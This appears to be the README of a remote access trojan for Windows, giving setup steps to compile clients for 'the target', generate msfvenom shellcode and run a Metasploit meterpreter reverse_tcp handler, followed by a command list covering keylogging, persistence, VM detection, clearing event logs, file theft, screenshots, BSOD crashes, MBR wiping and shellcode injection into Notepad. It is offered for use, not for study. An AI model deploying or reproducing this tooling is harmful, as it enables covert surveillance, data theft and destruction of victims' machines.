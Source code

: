# Setup

After cloning the whole project and getting inside of the x86 folder:

1. If you want to be able to use inject86, open Client.c and execute the commented msfvenom command at line 59 (Replace the LHOST/LPORT according to your needs), and then replace the contents of the variable ShellcodeX86 at line 61 with the output of the command.

2. You can generate a new certificate to use if you want (a default one was already provided for ease of use). If you generate a new certificate using Setup.sh, you must copy the contents of public.crt, into the variable 'ServerPublicCertPem' in Client.c:
```bash
cd ..
./Setup.sh cert
```

3. You can now compile. Type:
```bash
./Setup.sh compile
```

4. If everything went correctly, you should now have 4 executables: 2 clients (x64 and x86), and 2 server executables (x64 and x86). If not, there was an error when trying to compile. Make sure you did everything correctly.

5. You can now provide the IP address of the server from both client and server, by passing an argument:
```bash
Server:
	./Server-x86 start 192.168.1.1

Client (On target):
	Client-x86.exe 192.168.1.1
```

6. Before using 'inject86', open a new terminal tab, load msfconsole, and paste the lines below:
```bash
use exploit/multi/handler
set LHOST IP
set LPORT PORT
set payload windows/meterpreter/reverse_tcp
run
```

7. All done. Enjoy!

Info: Fallback shell and startcat have been removed from the x86 version due to some inconsistencies.

# Commands

q : Closes the connection with the client and exits

menu : Prints the menu showing all available commands

startlogger : Starts logging keystrokes and saves them to a file named 'out.txt' on the client machine

stoplogger : Stops logging keystrokes

persistence1 -> persistence3 : Uses hardcoded paths to establish persistence

removepers : Removes all hardcoded persistence methods used on the remote host

isvm : Performs basic checks to determine whether the client is running inside a 
virtual machine and returns the results

isadmin : Verifies whether the server has administrative privileges

cleanlogs : Removes the Event Viewer logs

updateurl : Updates the URL used to download files on the remote host

download : Downloads a file to the remote host using the URL and a specified filename

getfile : Retrieves a file from the remote host and transfers it to the server

diskspace : Returns the disk space for the C: drive

drives : Enumerates all connected drives

screenshot : Takes a screenshot of the remote host's desktop and transfers it to the server

cleanbin : Cleans the recycle bin (No popup)

hostname : Retrieves the hostname of the remote host

popup : Spawns a visible popup on the remote host (For debug)

bsodwin : Crashes the remote host, causing a BSOD (Blue Screen of Death)

wipembr : Overwrites the MBR on the remote host

inject86 : Spawns a new Notepad process and injects shellcode into it to establish a reverse shell connection to the msfconsole listener
